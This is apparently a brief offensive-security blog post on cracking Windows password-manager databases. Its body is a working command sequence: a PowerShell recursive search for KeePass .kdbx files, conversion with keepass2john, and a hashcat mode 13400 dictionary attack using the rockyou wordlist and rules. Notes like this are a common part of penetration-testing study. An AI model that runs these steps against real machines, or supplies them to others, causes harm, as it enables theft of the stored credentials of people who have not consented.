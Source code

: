 ```yaml
---
layout: post
title: Windows Password Managers
titledate: 09/11/23
tags: ["infosec","offsec", "password"]
---
```


we can crack windows password manager database hashes

if the user uses a manager like keypass we can do a search to see what extension is being used to store the passwords in the database

then use powershell to search for it

    $ Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

we can use john the ripper's keeppass2john script to format the database

    $ keepass2john Database.kdbx > keepass.hash

john the ripper adds the username Database to the keepass hash file but we will use hashcat so we can remove this

to show the correct mode of hashcat to use 

    $ hashcat --help | grep -i "KeePass"

displays 13400 for keepass

and finally crack it

    $ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force